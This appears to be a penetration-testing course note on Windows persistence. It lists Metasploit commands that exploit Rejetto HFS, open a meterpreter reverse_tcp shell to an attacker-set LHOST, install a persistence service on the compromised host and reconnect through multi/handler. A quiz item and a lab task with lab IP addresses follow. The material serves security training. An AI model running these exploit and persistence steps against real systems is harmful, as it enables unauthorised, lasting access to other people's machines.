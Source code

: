 
- Persistence - Used to keep access to a system


Setup msfconsole
```
service postgresql start && msfconsole
workspace -a persistence
setg RHOST <target_ip>
setg LHOST <local_ip>
setg RHOSTS <target_ip>
```

Setup exploit
```
db_nmap -sC -sV <target_host>
search rejetto 
use exploit/windows/http/rejetto_hfs_exec
set payload windows/x64/meterpreter/reverse_tcp
exploit
```

Setup persistence module
```
search platform:windows persistence
use exploit/windows/local/persistence_service
set payload windows/meterpreter/reverse_tcp
set SESSION 1
exploit
```

Get back session
```
use multi/handler
set payload windows/meterpreter/reverse_tcp
exploit
```
## Quiz

Which one of the following MSF module options is used to set the session ID?

	set SESSION
## Lab

A Kali GUI machine and a target machine running a vulnerable server are provided to you. The IP address of the target machine is provided in a text file named target placed on the Desktop of the Kali machine (/root/Desktop/target). 

Your task is to fingerprint the application using the tools available on the Kali machine and exploit the application using the appropriate Metasploit module.

Then, use the exploit/windows/local/persistence_service local exploit module to maintain access.

Objective: Exploit the application and maintain access using the Metasploit module.

Instructions:

- Your Kali machine has an interface with IP address 10.10.X.Y. Run “ip addr” to know the values of X and Y.
- The IP address of the target machine is mentioned in the file “/root/Desktop/target”
- Do not attack the gateway located at IP address 192.V.W.1 and 10.10.X.1


```
Local IP 10.10.22.4
Remote IP 10.4.24.118
```